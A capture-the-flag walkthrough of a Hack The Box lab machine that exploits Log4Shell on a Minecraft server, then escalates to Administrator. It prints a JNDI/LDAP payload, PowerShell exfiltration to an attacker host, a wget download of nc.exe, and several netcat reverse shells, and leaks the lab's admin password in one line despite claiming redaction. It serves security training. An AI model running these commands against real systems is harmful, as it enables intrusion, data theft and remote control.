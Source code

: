

Welcome to a comprehensive walkthrough of an Easy level machine in Hack The Box's Seasonal Challenges. Despite its classification, this challenge proves to be more of a medium-level difficulty, particularly if you're not using a pwnbox. 



Our journey begins with an initial reconnaissance phase. Using the powerful network scanning tool nmap, we conduct a scan to identify open ports and services:

```bash
nmap -v -T4 10.10.10.10 --min-rate 5000  -Pn -p- 
```

- `-v`: Increased verbosity for detailed scan output.
- `-T4`: Set timing template for faster scanning.
- `--min-rate 5000`: Specified the minimum packet-per-second rate, optimizing scan speed.
- `-Pn`: Skipped host discovery, treating all hosts as online.
- `-p-`: Scanned all 65535 ports, maximizing service discovery.


The scan reveals two crucial open ports: port 80 hosting a website related to Minecraft and port 25565 hosting the actual Minecraft server.

```plaintext
[] Nmap: PORT      STATE SERVICE
[] Nmap: 80/tcp    open  http
[] Nmap: 25565/tcp open  minecraft
[] Nmap: Read data files from: /usr/bin/../share/nmap
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in
```



We can attempt to connect to this server for more information. I used this repository [MCCTeam/Minecraft-Console-Client](https://github.com/MCCTeam/Minecraft-Console-Client/releases) to connect to the Minecraft service. MCC is a third-party tool used to interact with Minecraft servers via the command line.

After connecting, we get the Minecraft version installed. We can search for related application vulnerabilities on the internet. This application, like many others, utilizes the Java logging library.

We could further observe that this service is vulnerable to CVE-2021-44228. This vulnerability can be exploited to execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.

CVE-2021-44228, a critical vulnerability within the Java logging library, allows arbitrary code execution. Exploiting it involves crafting a payload to manipulate LDAP references, establishing a reverse shell into Crafty's system.

I found this repository [kozmer/log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc/tree/main), which can be used to exploit the vulnerability.

It has a single line use, which sets up the HTTP server, and LDAP referrer and the Java class payload to upload and get us a reverse shell when executed.

```bash
git clone https://github.com/kozmer/log4j-shell-poc.git
```

To make this exploit work, we need to download the relevant dependencies as mentioned in the exploit GitHub page:

```bash
pip install -r requirements.txt
```

Get the compatible version of Java, i.e., '8u20'. Extract and save it with the name 'jdk1.8.0_20' in the same path as that of poc.py file. [Java SE 8 Archive Downloads](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)

Go to the downloaded POC folder and use this command to download the file (for Linux 64-bit systems):

```bash
wget -c --no-cookies --no-check-certificate --header "Cookie: oraclelicense=accept-securebackup-cookie" https://download.oracle.com/otn/java/jdk/8u202-b08/1961070e4c9b4e26a04e7f5a083f551e/jdk-8u202-linux-x64.tar.gz
```

After installing all the dependencies, initiate the Minecraft client to connect to the server:

```bash
┌──(root💀kali)-[/home/kali/Minecraft-Console-Client]
└─# ./MinecraftClient-20240130-245-linux-x64 <username>
```


![Pasted image 20240219014106](assets/305748071-4da6c36b-eff9-4e46-a0cb-d1741d5e92ee.png)

(Note: Press enter when it prompts for a password, as in setting no password. Input server IP (HTB target IP), and we should be connected to the server)

[start netcat listener in 2nd tab]

```bash
nc -nvlp 9001
```

[Execute the POC script in the third tab]

```bash
$ python3 poc.py --userip 10.10.10.10 --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit Java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://10.10.10.10:1389/a}

Listening on 10.10.10.10:1389
```

(If you are connected to HTB VPN, be sure to select the IP associated with the HTB VPN in `--userip`)

Now we need to send this command in the Minecraft console:

```bash
${jndi:ldap://10.10.10.10:1389/a}
```

After sending this command, we receive a reverse shell on our netcat listener. We could see a LDAP redirect and the HTTP 'GET' request to download and execute the payload 'Exploit.class' for the initial foothold.



![Pasted image 20240219014236](HTB\assets\305748026-1b82343a-5382-4ebf-a837-fb68fb639ac1.png)


We can do a few checks on the system to view files, assessable directories, and current privileges.

![Pasted image 20240219014403](HTB\assets\305748059-5a973019-ccc2-4b26-81bd-b357e640c3ae.png)


We've got foothold as a service account `crafty\svc_minecraft` and landed in a Minecraft service directory `C:\users\svc_minecraft\server` . Viewing the files and paths for the Minecraft service hosted, we see few JAR files, and one of them is in the `\plugins` path.

![Pasted image 20240219021701](HTB\assets\305748062-1f010d2e-032c-4ef0-ad3a-976925de537b.png)


![Pasted image 20240219021648](HTB\assets\305748066-6f8ec5d2-1d82-4bbc-baa5-c4881133289e.png)


We need to retrieve those files and check what all data we can get.

For exfiltrating the file from the victim machine, we can do as follows:

Note: The victim host doesn't have a firewall or antivirus configured.

Setup a post HTTP server and host it on the attacker machine:

```bash
sudo python3 SimpleHTTPServerWithUpload.py -b 10.10.10.10 1234
```

On the victim machine, we can use PowerShell to upload the file to the server.

Note: Navigate to the file where the file is located and execute this, or provide the complete file path.

Start PowerShell:

```bash
powershell -ep bypass
```

Upload the file to the server:

```bash
powershell (New-Object System.Net.Webclient).UploadFile('http://10.10.10.10:1234/', 'playercounter-1.0-SNAPSHOT.jar')
```

Verify by checking file hashes on both hosts to check if the file was transferred successfully:

Check file hash on PowerShell (Victim):

```bash
Get-FileHash c:\users\svc_minecraft\server\plugins\playercounter-1.0-SNAPSHOT.jar -Algorithm MD5
```
```plaintext
Algorithm       Hash                                                                   Path                            
---------       ----                                                                   ----                            
MD5             349F6584E18CD85FC9E014DA154EFE03                                       C:\users\svc_minecraft\server...
```

On attacker:

```bash
┌──(kali㉿kali)-[~/SimpleHTTPServerWithUpload]
└─$ md5sum playercounter-1.0-SNAPSHOT.jar 
349f6584e18cd85fc9e014da154efe03  playercounter-1.0-SNAPSHOT.jar
```

We can extract and view the contents, and we could also view these files on any online Java decompiler.

I used [https://www.decompiler.com/](https://www.decompiler.com/)

Reviewing the files, we notice the authentication pattern, consisting of IP, port, and password. We could find one misconfigured test file with the admin credentials of the 'Administrator' account.

We still have low privileges on the host, and we don't have any other running services where this credential can be leveraged.

With the reverse shell already established, we can attempt `runas /user:administrator`, but this method is ineffective as the shell is non-interactive.


>On the attacker machine, we'll host the executable directory containing nc.exe for HTTP download.

```bash
└─$ sudo python3 -m http.server 80                       
sudo: unable to resolve host kali: Name or service not known
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

And initiate a netcat listener for the shell with administrative privileges.

```bash
nc -nvlp 4444
```

>On the victim machine

We'll use PowerShell, capable of storing values in declared variables.

We create a temp directory, download the hosted netcat binary, and execute it with administrative privileges to get a reverse shell with elevated privileges on the attacker machine

```PowerShell
C:\users\svc_minecraft\server\plugins> cd C:\
C:\> 
C:\>mkdir temp
mkdir temp

C:\>cd temp
cd temp

C:\temp>powershell -ep bypass
powershell -ep bypass
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\temp> wget http://10.10.10.10:80/nc.exe -o nc.exe        
wget http://10.10.10.10:80/nc.exe -o nc.exe
PS C:\temp> ls
ls


    Directory: C:\temp


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        2/13/2024   1:50 AM          59392 nc.exe                                                                


PS C:\temp> $secpasswd = ConvertTo-SecureString "s67u84zKq8IXw" -AsPlainText -Force
$secpasswd = ConvertTo-SecureString "<Redacted>" -AsPlainText -Force
PS C:\temp> $mycreds = New-Object System.Management.Automation.PSCredential ("Administrator", $secpasswd)
$mycreds = New-Object System.Management.Automation.PSCredential ("Administrator", $secpasswd)
PS C:\temp> Start-Process -FilePath powershell.exe -argumentlist "C:\temp\nc.exe 10.10.10.10 4444 -e cmd.exe" -Credential $mycreds
Start-Process -FilePath powershell.exe -argumentlist "C:\temp\nc.exe 10.10.10.10 4444 -e cmd.exe" -Credential $mycreds
PS C:\temp> 
```

-- the credentials are redacted, for you to find!!

>On the attacker machine, we successfully get an administrative reverse shell, which can be further exploited to get a meterpreter shell, dump hashes navigate to the user administrator directory to retrieve the root flag!



